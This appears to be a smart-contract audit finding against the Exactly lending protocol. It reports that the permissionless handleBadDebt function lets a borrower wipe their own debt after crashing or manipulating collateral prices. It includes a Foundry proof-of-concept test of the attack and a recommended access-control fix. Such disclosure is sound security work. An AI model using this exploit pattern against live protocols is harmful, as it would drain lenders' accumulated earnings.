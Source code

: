 Fresh Jetblack Dragonfly

high

# Borrower can steal funds by triggering ClearBadDebt

## Summary
In exactly, users can borrow from a market at a fixed or floating rate(market A), and put up collateral via a different market which can be termed as the seize market(market B). If a users borrow position becomes valid for liquidation, then the liquidator can liquidate the position and seize collateral from market B. if the borrow position generates bad debt, then the bad debt is distributed as losses via being deducted from the earnings accumulator. the process of handling bad debt is triggered by the Market's liquidate function as can be seen below:

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L609C1-L611C37



bad debt handling is passed to the auditor function which first checks whether the user has no collateral added across all markets he entered. if there is positive collateral, the function returns without clearing bad debt.  this is calculated as such:

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Auditor.sol#L295C1-L320C4

As you can from function above, if all collateral in all markets is deemed not positive, then the auditor handledebt function attempts to clear bad debt in all the markets the user entered, and not only the market that triggered the liquidation event.

going back to the individual market, the clearBadDebt function triggered by the auditor contract essentially attempts to fully clear the users fixed and floating borrows(which are now deemed bad debt since initial trigger was via liquidation) using the earnings accumulated via the earningsAccumulator.

https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L639C1-L639C59

 
## Vulnerability Detail

The problem arises given that anyone can trigger the auditor's handleBadDebt function. so in theory the action of clearing bad debt can occur without a liquidation event. This is possible for instance if the price of the collateral asset collapses suddenly or is manipulated. A scenario can play out as such: 

1. price of seize collaterlal in Marktet B falls drastically(or is manipulated).
2. the handleBadDebt function is immediately called by malicious borrower in market A.
3. the check for 0 collateral passes because price is very low.
4. bad debt is cleared from Market A.
5. The borrowers fixed and/or floating borrow positions are cleared, but without having their borrowed assets seized.
6. Any future attempt to seize their borrowed assets via liquidation will fail since the borrowers position have been cleared by bad debt handling.

This is also exharberated by the fact that the handlebadDebt will clear bad debt from all markets the user entered, effectively clearing their borrowed positions from all markets, without any liquidation event.

## Impact

The borrower can effectively steal funds by utilizing the permissionless handleBadDebt function in the auditor to force the earnings accumulator to pay off their debt.

on a side note, it is also worth paying attention to the fact that the clearing of bad debt can be triggered even if the market operations are paused:

    https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L619C1-L619C53

notice there are no modifiers used by the clearBadDebt function. if the market operations (repaying, liquidation etc)were paused due to an emergency for instance, a bad actor can still clear bad debts.

## Code Snippet

        function testDistributeLosses() external {
    assetLINK.mint(ALICE, 50_000 ether);
    marketLINK.deposit(1.15 ether, address(this));
  
    market.deposit(50_000 ether, ALICE);
    market.setMaxFuturePools(12);

    // distribute earnings to accumulator
    market.setBackupFeeRate(1e18);

    irm = MockInterestRateModel(address(new MockBorrowRate(1e18)));
    market.setInterestRateModel(InterestRateModel(address(irm)));

    vm.prank(ALICE);
    market.borrowAtMaturity(FixedLib.INTERVAL, 10_000 ether, 20_000 ether, ALICE, ALICE);
    market.depositAtMaturity(FixedLib.INTERVAL, 10_000 ether, 10_000 ether, ALICE);

    irm.setRate(0);
    daiPriceFeed.setPrice(0.0002e18);
    for (uint256 i = 1; i <= 4; i++) {
      market.borrowAtMaturity(FixedLib.INTERVAL * i, 1_000 ether, 1_000 ether, address(this), address(this));
    }
    daiPriceFeed.setPrice(0.0003333333333333e18);
    linkPriceFeed.setPrice(1);

    uint256 accumulatorBefore = market.earningsAccumulator();
    uint256 DAIBalanceBefore = ERC20(market.asset()).balanceOf(address(this));
    // @audit trigger malicious handle bad debt
    auditor.handleBadDebt(address(this));
    uint256 bobDAIBalanceAfter = ERC20(market.asset()).balanceOf(BOB);
    uint256 accumulatorAfter = market.earningsAccumulator();
    (, uint256 fixedBorrows, ) = market.accounts(address(this));
    // @audit attacker fixed borrows have been cleared
    assertEq(fixedBorrows, 0);
    for (uint256 i = 1; i <= 4; i++) {
      (uint256 principal, uint256 fee) = market.fixedBorrowPositions(FixedLib.INTERVAL * i, address(this));
      assertEq(principal + fee, 0);
    }
    uint256 DAIBalanceAfter = ERC20(market.asset()).balanceOf(address(this));

    // @audit attacker still has his balance of assets in the market
    assertEq(DAIBalanceAfter, DAIBalanceBefore);

    // @audit earnings accumulator was used to pay off attackers debt
    assertLt(accumulatorAfter,accumulatorBefore);

    vm.expectRevert(InsufficientShortfall.selector);
    vm.prank(BOB);
    market.liquidate(address(this), type(uint256).max, marketLINK);

  }

The test above demonstrates the scenario explained.  please note that for this test, a new market called marketLINK, new link asset and priceFeed as well was created and used as mocks. as can be seen below:

     marketLINK = Market(address(new ERC1967Proxy(address(new Market(assetLINK, auditor)), "")));
    marketLINK.initialize(
      "LINK",
      3,
      1e18,
      InterestRateModel(address(irm)),
      0.02e18 / uint256(1 days),
      1e17,
      0,
      0.0046e18,
      0.42e18
    );
    vm.label(address(marketLINK), "MarketLINK");

    linkPriceFeed = new MockPriceFeed(18, 1e18);
    auditor.enableMarket(marketLINK, linkPriceFeed, 0.9e18);

    auditor.enterMarket(marketLINK);

    assetLINK.mint(BOB, 50_000 ether);
    //assetLINK.mint(ALICE, 50_000 ether);
    assetLINK.mint(address(this), 1_000_000 ether);

    assetLINK.approve(address(marketLINK), type(uint256).max);

## Tool used

Manual Review

## Recommendation

one suggestion is to add access control as to who can trigger the handleBadDebt function in the auditor, permission can be granted for instance to instances of markets and/or the Admin.